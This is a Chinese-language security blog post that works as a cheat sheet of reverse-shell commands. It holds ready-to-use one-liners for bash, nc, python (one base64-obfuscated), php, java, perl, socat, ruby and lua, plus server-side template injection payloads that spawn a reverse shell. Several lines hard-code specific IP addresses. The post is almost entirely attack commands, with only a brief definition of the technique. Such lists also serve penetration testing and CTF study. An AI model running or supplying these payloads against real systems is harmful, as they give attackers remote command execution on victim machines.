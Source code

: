 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      记录一些反弹shell的指令               # 标题 
subtitle:    一篇水文 #副标题
date:       2020-01-12              # 时间
author:     Von                      # 作者
header-img: img/post-bg-universe.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - Linux

---
```


# 什么是反弹shell
反弹shell在我看来就是攻击者输入命令，命令在被攻击端执行，并将执行后得到的结果回显到攻击端的过程。  
在目前看来似乎主要用在命令执行上，当网页没有直接回显时我们可以使用反弹shell在我们自己服务端对被攻击端执行代码。  
关于反弹shell的主要原理我就不在这细讲了。具体的可以看这几篇文章:  

[panda1g师兄的文章1](https://panda1g1.github.io/%2F2018%2F10%2F06%2Flinux%E9%87%8D%E5%AE%9A%E5%90%91%2F)  
[panda1g师兄的文章2](https://panda1g1.github.io/%2F2018%2F10%2F06%2Flinux_%E5%8F%8D%E5%BC%B9shell%2F)  
[K0rz3n师兄的文章1](https://www.k0rz3n.com/2018/08/05/Linux%E5%8F%8D%E5%BC%B9shell%EF%BC%88%E4%B8%80%EF%BC%89%E6%96%87%E4%BB%B6%E6%8F%8F%E8%BF%B0%E7%AC%A6%E4%B8%8E%E9%87%8D%E5%AE%9A%E5%90%91/)  
[K0rz3n师兄的文章2](https://www.k0rz3n.com/2018/08/05/Linux%20%E5%8F%8D%E5%BC%B9shell%20%EF%BC%88%E4%BA%8C%EF%BC%89%E5%8F%8D%E5%BC%B9shell%E7%9A%84%E6%9C%AC%E8%B4%A8/)  

# 反弹shell的指令
本文仅记录一些反弹shell的指令:
## bash反弹shell
```
bash -i &> /dev/tcp/ip/port 0>&1
```
## nc反弹shell
### nc支持-e
```
nc -e /bin/bash ip port 
```
### nc不支持-e
由于-e命令太危险，很多nc在安装时就已经把-e命令去掉了.我们可以采用监听两个端口来解决。  
攻击机:
```
nc -l -vv -p port1
nc -l -vv -p port2 
```
受害机:
```
nc ip port1 |/bin/bash| nc ip port2
```

## python反弹shell
``` python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.103.22.65",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
"
```
也可以这样写:
``` python
python -c "exec(\'aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zICAgICAgOyAgICBob3N0PSIzOS4xMDguMTgwLjE3MSIgICAgICA7ICAgIHBvcnQ9NTY3ODkgICAgICA7ICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pICAgICAgOyAgICBzLmNvbm5lY3QoKGhvc3QscG9ydCkpICAgICAgOyAgICBvcy5kdXAyKHMuZmlsZW5vKCksMCkgICAgICA7ICAgIG9zLmR1cDIocy5maWxlbm8oKSwxKSAgICAgIDsgICAgb3MuZHVwMihzLmZpbGVubygpLDIpICAgICAgOyAgICBwPXN1YnByb2Nlc3MuY2FsbCgiL2Jpbi9iYXNoIik=\'.decode(\'base64\'))"
```


## php反弹shell
``` php
PHP -f 
$s = fsockopen("ip",port);
exec('/bin/bash -i  0>&3 1>&3 2>&3');
```
(注意单双引号)

## java反弹shell
``` java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.31.41/8080;
cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## perl反弹shell
``` perl
perl -e 'use Socket;$i="192.168.31.41";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## SSTI反弹shell
``` python
{{[].__class__.__base__.__subclasses__()[59]().__getattribute__('_module').__getattribute__('linecache').__getattribute__('o'+'s').__getattribute__('sys'+'tem')("python -c 'i"+"mport socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"47.103.22.65\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'")}}
```
也可以这样写:
``` python
[].__class__.__mro__[-1].__subclasses__()[71].__init__.__globals__['os'].system('python -c "exec(\'aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zICAgICAgOyAgICBob3N0PSIzOS4xMDguMTgwLjE3MSIgICAgICA7ICAgIHBvcnQ9NTY3ODkgICAgICA7ICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pICAgICAgOyAgICBzLmNvbm5lY3QoKGhvc3QscG9ydCkpICAgICAgOyAgICBvcy5kdXAyKHMuZmlsZW5vKCksMCkgICAgICA7ICAgIG9zLmR1cDIocy5maWxlbm8oKSwxKSAgICAgIDsgICAgb3MuZHVwMihzLmZpbGVubygpLDIpICAgICAgOyAgICBwPXN1YnByb2Nlc3MuY2FsbCgiL2Jpbi9iYXNoIik=\'.decode(\'base64\'))"')
```

## socat反弹shell
``` socat
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<你的IP>:<你的端口>
```

## ruby反弹shell
``` ruby
ruby -rsocket -e'f=TCPSocket.open("<你的IP>",<你的端口>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### 不依赖于/bin/sh的shell
``` ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("<你的IP>","<你的端口>");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### 如果目标系统运行Windows
``` ruby
ruby -rsocket -e 'c=TCPSocket.new("<你的IP>","<你的端口>");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## lua反弹shell
``` lua
lua -e "require('socket');require('os');t=socket.tcp();t:connect('<你的IP>','<你的端口>');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```




